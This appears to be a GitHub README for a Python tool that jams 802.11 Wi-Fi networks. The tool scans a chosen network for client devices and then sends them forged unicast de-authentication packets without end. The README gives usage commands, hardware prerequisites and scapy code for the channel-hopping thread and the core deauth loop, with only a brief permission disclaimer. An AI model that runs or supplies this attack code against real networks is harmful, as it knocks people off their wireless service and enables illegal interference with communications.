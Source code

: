 # 802.11 Wifi Jammer
**Infinitely disconnects clients one by one from a 802.11 network**
(video guide of this program : https://www.youtube.com/watch?v=u9fdUhFMZRc)
**This program does not send a broadcast de-auth packet using the networks bssid as it is REALLY INEFFECTIVE and rarely works. INSTEAD this program scans the selected network for clients and adds those clients into a list, then infinitely loops through the clients list to send UNICAST DE-AUTH packets to specified clients which in turn in very effective**


**! <ins>DO NOT USE ON A NETWORK WITHOUT PRIOR PERMISSION</ins> !**

Prerequisites
-------------

* Wireless adapter supporting monitor mode and packet injection
* Python with ***scapy*** and ***colorama*** installed

Usage 
------
``` shell
python jammer.py <interface> <noise_filter_flag>
```
* The interface mentioned should have monitor mode already ON.
* The noise_filter_flag could be either 1 (True : noise filter is on) or 0 (False: noise filter is off)
  
Example:
``` shell
python jammer.py wlan0mon 1
```
How To Use
-----------

**The programs works in a three step process:**

### 1) Scanning APs:

* sniffs beacons frames using scapy on the specified interface
* channel hopping is done through a hopper thread which terminates through a daemon boolean flag
``` shell
def channelHopper():	
    while True: 
        channel = random.choice(channels)
        os.system("iw dev wlan0 set channel {}".format(channel))
        with lock:	
            global CURRENT_CHANNEL
            CURRENT_CHANNEL = channel
        if not(daemonFlag):
        	break 
        time.sleep(0.2)
```
### 2) Scanning Selected Network For Clients:
**This involves switching over to the channel of the selected network and extracting for clients bssid using these radio packets:** 
* Qos Frame
* Qos with CCMP Frame
* Control Block Frame
* Null Frame

This is achieved using the **clientFilter** function:

https://github.com/ary27x/WIFI_JAMMER/blob/3aaf282f24d69eee91449ad566a4b627701ea4e0/jammer.py#L130

(Let this run for a couple of minutes)

### 3) Sending De-Authentication Packets:

**Finally the program infinitely loops through the clients list and sends forged de-authentication packet to each through layer 2**

``` shell
while True:
    for client in clients:
        packet = RadioTap()/Dot11(addr1 = client, addr2 = MAC , addr3 = MAC)/Dot11Deauth()
        sendp(packet , iface = IFACE)
```





  




